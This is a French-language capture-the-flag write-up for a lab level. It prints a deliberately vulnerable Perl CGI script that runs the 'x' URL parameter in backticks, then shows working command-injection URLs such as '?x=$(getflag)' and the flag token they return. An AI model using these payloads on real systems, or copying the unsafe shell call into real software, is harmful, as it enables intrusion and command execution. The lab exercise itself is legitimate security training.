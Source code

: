 ## Démarche
ls -la
> -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```
 #!/usr/bin/perl
 #localhost:4747
 use CGI qw{param}; //import du module CGI param
 print "Content-type: text/html\n\n";
 sub x { //sous programme
   $y = $_[0];  //recupération du premier argument x
   print `echo $y 2>&1`;
 }
 x(param("x"));
 ```

sub -> sous fonction
```
 #!/usr/bin/perl

 sub x { 
   $y = $_[0];
   print `echo $y 2>&1`;
 }
 x(`pwd`);
```
execute la commande shell passée en paramètre de la sous-fonction x


Via un navigateur :
> localhost:4747 > http://10.11.200.185:4747/

http://10.11.200.185:4747/?x=$(ls)
>level04.pl 

http://10.11.200.185:4747/?x=$(passwd)
> Changing password for flag04. 

http://10.11.200.185:4747/?x=$(getflag)
> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap 


## Ressources
- [Chapter 1 of CGI Programming 101](http://www.cgi101.com/book/ch1/text.html)